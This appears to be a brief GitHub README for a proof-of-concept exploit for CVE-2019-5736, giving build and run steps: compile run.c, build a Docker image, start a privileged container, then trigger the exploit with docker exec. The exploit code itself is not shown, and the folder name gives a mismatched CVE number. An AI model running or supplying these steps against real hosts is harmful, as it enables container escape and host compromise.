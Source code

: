 ### Exploit for CVE-2019-5736 

## Usage: 

* build image

		cd CVE-2019-5376-POC
		gcc run.c -o run -static
		docker build -t testpoc .


* run

		docker run -it --privileged --name testpoc_instance testpoc
		
		# open another terminal, and run docker exec
		docker exec -it testpoc_instance bash
